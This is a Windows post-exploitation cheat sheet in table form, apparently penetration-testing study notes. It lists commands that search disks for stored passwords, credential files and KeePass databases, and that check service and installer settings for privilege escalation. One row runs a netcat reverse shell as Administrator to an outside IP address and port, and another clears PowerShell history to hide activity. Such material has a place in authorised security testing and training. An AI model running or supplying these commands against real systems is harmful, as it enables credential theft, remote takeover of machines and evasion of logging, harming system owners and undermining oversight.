 # Windows Command Cheat Sheet

| Command | Description |
|---------|-------------|
| `whoami /priv` | Show privileges |
| `whoami /all` | Show all info |
| `dir /a` | Show hidden files |
| `cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt` | Search for file contents |
| `findstr /si password *.xml *.ini *.txt *.config` | Search for file contents |
| `findstr /spin "password" *.*` | Search for file contents |
| `dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*` | Search for file contents |
| `where /R C:\ user.txt` | Search for file |
| `where /R C:\ *.ini` | Search for file |
| `Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue` | Search files recursively |
| `Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue` | Search KeePass DB files |
| `(32 bit app)` | Check installed applications |
| `Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" \| select displayname` | Installed apps (32-bit) |
| `(64 bit app)` | Check installed applications |
| `Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" \| select displayname` | Installed apps (64-bit) |
| `Get-Process \| Select ProcessName, Path` | Show running processes |
| `runas /user: cmd` | Usable only when GUI access is available |
| `get-history (clear-history)` | Clear PowerShell history |
| `(Get-PSReadlineOption).HistorySavePath` | Show PowerShell history path |
| `$PSVersionTable` | PowerShell version information |
| `Get-CimInstance -ClassName win32_service \| Select Name, StartMode \| Where-Object {$_.Name -like "kite"}` | List services (filter by name) |
| `Get-CimInstance -ClassName win32_service \| Select Name, StartMode \| Where-Object {$_.State -like 'Running'}` | List running services |
| `Get-ScheduledTask` | Show scheduled tasks |
| `schtasks /query /fo LIST /v` | Show scheduled tasks (verbose) |
| `Get-CimInstance -ClassName win32_service \| Select Name, StartMode \| Where-Object {$_.Name -like 'mysql'}` | Check service startup type; if Auto and has SeShutDownPrivilege → reboot |
| `shutdown /r /t 0` | Reboot the machine |
| `tasklist /v \| findstr mysqld` | Check service execution privileges |
| `sc qc "ServiceName"` | If Service_Start_Name = LocalSystem → possible privilege escalation |
| `runas /user:Administrator "nc.exe -e cmd.exe 192.168.45.175 4444"` | Execute reverse shell |
| `reg query hklm\system\currentcontrolset\services` | List services |
| `reg query hklm\system\currentcontrolset\services\ZSATunnel` | Check .exe file |
| `HKLM\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\Run` | Auto-start (32-bit) |
| `HKLM\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\Uninstall` | Installed app info (32-bit) |
| `HKLM\SOFTWARE\WOW6432Node\YourAppVendor\YourAppName` | App config (32-bit) |
| `Get-WmiObject Win32_Service \| Select-Object Name, StartName \| findstr VeyonService` | Check service execution user; if LocalSystem → SYSTEM |
| `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System EnableLUA` | 1 = UAC enabled |
| `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced Hidden` | 1 = Show hidden files |
| `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated` | Always install elevated; MSI files will be installed as SYSTEM |
| `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated` | Always install elevated; MSI files will be installed as SYSTEM |
| `# Check if registry key is enabled` | Verify transcription settings |
| `reg query HKCU\Software\Policies\Microsoft\Windows\PowerShell\Transcription` | Check transcription |
| `reg query HKLM\Software\Policies\Microsoft\Windows\PowerShell\Transcription` | Check transcription |
| `reg query HKCU\Wow6432Node\Software\Policies\Microsoft\Windows\PowerShell\Transcription` | Check transcription |
| `reg query HKLM\Wow6432Node\Software\Policies\Microsoft\Windows\PowerShell\Transcription` | Check transcription |
| `dir C:\Transcripts` | Check transcript files |
| `Start-Transcript -Path "C:\transcripts\transcript0.txt" -NoClobber` | Start transcript session |
| `Stop-Transcript` | Stop transcript session |

